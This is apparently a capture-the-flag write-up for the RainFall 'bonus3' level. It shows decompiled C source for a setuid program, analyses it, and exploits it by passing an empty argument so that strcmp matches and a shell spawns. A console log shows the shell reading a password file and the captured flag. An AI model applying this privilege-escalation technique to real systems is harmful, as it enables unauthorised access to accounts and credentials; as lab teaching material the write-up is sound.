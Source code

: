 # Bonus 3

<h3>source.c</h3>

```console
int main(int argc, char** argv) {
	char str[132];
	void* file = fopen("/home/user/end/.pass", "r");

	memset(str, 0, 132);
	if ((file == 0) || (argc != 2)) {
    return(-1);
  }
	else
	{
		fread(str, 1, 66, f);
		str[65] = 0;
		str[atoi(argv[1])] = 0;
		fread(&str[66], 1, 65, f);
		fclose(f);
		if (strcmp(str, argv[1]) == 0) {
      execl("/bin/sh", "sh", NULL);
    }
		else {
      puts(&str[66]);
    }
	}
	return (0);
}
```

<h3>Analysis</h3>

In this program, we can see that it is taking only 1 arg,

At the atr of the program, it is reading the `.pass` and save it into the `file` pointer

After checking that the `file` contain no error and the user have put only 1 arg for the program, it will put the content of the file into the local str variable

Next, it will assign a `0` of null string into index 65 of the `str` and another `0` at the index gotten by the atoi of `argv[1]`

This could means the user can cut short the content of `str` depending on the input it gave to the program.

The next fread is trying to read from the `file` again and save it on the index 66 onward, but not sure what it is trying to achieve

After the file is close, the program will do some comparison between the `str` and `argv[1]` to see if there are equal

Since `str` is potentiatially storing the `pass`, we will have no way to get the `argv[1]` right without knowing what is the `pass`

Our goal will be to make `str` and `argv[1]` as equal so we could spawn the shell

<h3>Exploit</h3>

Since `argv[1]` will be converted into int and be used as the index to assign `0` to the `str`

We could potentially cut the `str` short by putting `0` as the input for `argv[1]`

We can try to put `0` for the input, but then the result will become like this

```console
str[atoi(argv[1])] = 0;
str[atoi(0)] = 0;
str[0] = 0;
str[0] = '\0' or end of string

argv[1] = "0" the char of 0
```

This will not work because they are not the same

But instead we can put `""` as the input for `argv[1]` an this will be the result

```console
str[atoi(argv[1])] = 0;
str[atoi("")] = 0;              -> atoi("") will return 0 as there is nothing to be converted
str[0] = 0;
str[0] = '\0' or end of string

argv[1] = ""  there is nothing here
```

`strcmp(str, argv[1])` will be equal to 0, as there will be nothing compare to nothing, so they are equal

```console
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password:
end@RainFall:~$ ls -l
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```